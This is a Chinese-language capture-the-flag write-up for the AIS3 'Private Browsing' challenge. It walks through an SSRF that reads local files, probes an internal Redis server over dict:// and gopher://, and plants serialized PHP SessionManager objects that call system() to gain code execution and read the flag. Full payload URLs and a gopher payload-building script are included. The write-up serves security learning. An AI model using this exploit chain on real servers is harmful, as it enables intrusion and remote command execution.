 # Private Browsing
## 題目

## 解題
看起來是很經典的 ssrf 雖說前端鎖定 `http[s]` 但後端沒鎖，所以直接用 `/api.php` 做 ssrf。

先 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///proc/net/tcp` 看有那些機器可以打。

可以看到 server 頻繁的對 `192.168.224.2:6379` 做存取

google 查到 tcp 6379 port 是 redis

`http://chals1.ais3.org:8763/api.php?action=view&url=dict://192.168.224.2:6379/info` 證實了是 redis。

但資訊依然不夠，因此抓 source code  `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/api.php`

有一個 `require_once 'session.php'` 把他抓下來 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/session.php`

經過長時間的閱讀後可以發現他會將 cookie `sess_id` 作為 key，現在所用的 `BrowsingSession` class serialize 後儲存到 redis
格式是長這樣 `O:15:"BrowsingSession":1:{s:7:"history";a:1:{i:0;s:19:"https://google.com/";}}` 這就是他做 history 的方式。

這樣的話就可以用這隻 script 建立 payload (dict 的話冒號會不見)
``` python
from urllib.parse import quote
import sys

tcp_payload = sys.argv[2]
ip = sys.argv[1]
url = f"gopher://{ip}:6379/_{quote(tcp_payload)}"
print(url)
```


但是 `BrowsingSession` 並沒有可以利用這點做 RCE 的地方，因為他只有一個 `history` 的 variable 並作為 array 做存取。

發現 `SessionManager` 的 `encode` 跟 `decode` 是 variable function 執行位置是在 `get()` 跟 `__destruct()`(解構子)

原本是著利用 `get()` 做 RCE 因為外層的 `SessionManager` 再跑 `$session->push` 會用 `__call()` return 的 class 去執行 `push` 
而 `get()` 的內容是 `val` 有東西就直接 return，redis 內有東西就直接 decode redis 的 value，都沒就建一個，而存在 redis 的東西被使用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3BN%3Bs%3A6%3A%5C%22decode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 改成 `O:14:"SessionManager":3:{s:3:"val";N;s:6:"decode";s:6:"system";s:6:"sessid";s:4:"code";}`
所以他會跑內部的 `SessionManager` 的 `__call()` 然後 call `get()` 因為 `val` 是 null 所以會找 redis，因 redis 的 value 有用 `dict://192.168.224.2:6379/SET%20code%20%22ls%22` 設 `code` 為 `id` 的 command 且 `decode` 被改成 `system` 所以會 RCE。

然而忽略了一點是 `get()` 內的 redis 是 `$this` 下面的而非 `global` 而 connect 後的 redis 無法用 `unserialize` 製造，所以用 `get()` RCE 會是失敗的。

後來想到如果成是 error 內部的 `SessionManager` 也會做 `__destruct()` 因此用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A2%3A%5C%22ls%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:2:"ls";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 然後將 cookie 切為 `fc57bda95a5184e55555` 然後隨便看一個 url 可以發現成功 RCE。

用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A9%3A%5C%22/readflag%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:9:"/readflag";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 然後將 cookie 切為 `fc57bda95a5184e55555` 便可以看到 flag。

## Flag
`AIS3{deadly_ssrf_to_rce}`